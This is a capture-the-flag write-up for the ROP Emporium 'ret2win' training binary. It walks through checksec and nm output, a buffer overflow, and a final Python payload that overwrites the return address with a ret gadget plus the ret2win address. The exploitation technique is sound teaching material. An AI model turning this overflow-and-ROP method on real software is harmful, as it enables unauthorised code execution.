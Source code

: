 # 🧠 ret2win – ROP Emporium Challenge

> Category: Binary Exploitation – ROP Basics  
> Difficulty: Easy  
> Arch: `amd64`  
> Objective: Exploit a buffer overflow to call the hidden `ret2win` function and retrieve the flag.

---

## 🛠️ 1. Initial Analysis

We begin by inspecting the binary protections using `checksec`:

```bash
checksec ret2win
```

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
Stripped: No
```

### ✅ Observations:
- **NX enabled**: Code execution on the stack is not allowed.
- **No PIE**: All addresses are fixed – makes exploitation easier.
- **No canary**: The stack can be overflowed without detection.
- **Not stripped**: We can locate useful functions with `nm`.

---

## 🔍 2. Locating the Goal

We use `nm` to find the address of the `ret2win` function:

```bash
nm ret2win
```

```
0000000000400756 t ret2win
```

The goal is to **call `ret2win()`**, which is not called by default but contains the flag.

---

## 🧠 3. Vulnerability Discovery

Using reverse engineering tools like **Ghidra**, we discover a **buffer overflow** vulnerability in the main function. Specifically:

- The binary reads **56 bytes** from input (`read(0, local_28, 0x38)`),
- Into a buffer of only **32 bytes** on the stack.

This means we can **overwrite the return address** with a carefully crafted payload.

---

## 🧪 4. Crafting the Exploit

We calculate the offset needed to reach the return address:  
```python
offset = 40  # (based on cyclic patterns)
```

Initial payload attempt:

```python
payload  = b"A" * offset
payload += p64(0x400756)  # address of ret2win()
```

But when we run this, the binary crashes with:

```
0x7ffff7c5843b <do_system+363>: movaps xmmword ptr [rsp + 0x50], xmm0
<[0x7fffffffdc78] not aligned to 16 bytes>
```

### ❗ Root Cause:
This happens because **`rsp` is not aligned to a 16-byte boundary**, and the `movaps` instruction requires 16-byte alignment when working with `xmm` registers (SSE).

---

## 🧯 5. Fixing Stack Alignment (with a `ret` Gadget)

To fix the alignment, we insert a **dummy `ret` instruction** before calling `ret2win`.  
This extra `ret` shifts `rsp` by 8 bytes, thus **aligning it properly**.

```bash
objdump -d ret2win | grep ret
```

Find a nearby `ret` instruction, e.g., at address `0x400755`.

### ✅ Final Exploit Payload:

```python
offset = 40
payload  = b"A" * offset
payload += p64(0x400755)  # ret (alignment fix)
payload += p64(0x400756)  # call ret2win()
```

---

## 🎯 6. Result

Running the binary with this payload successfully calls `ret2win`, and we get the flag:

```
ROPE{a_placeholder_32byte_flag!}
```

---

## 🧠 Key Takeaways

- Always check for **stack alignment issues** when using ROP on `x86_64`.
- `movaps` crashes are common when `rsp` is not 16-byte aligned.
- A **`ret` gadget** can be used to realign the stack before calling functions that use SSE.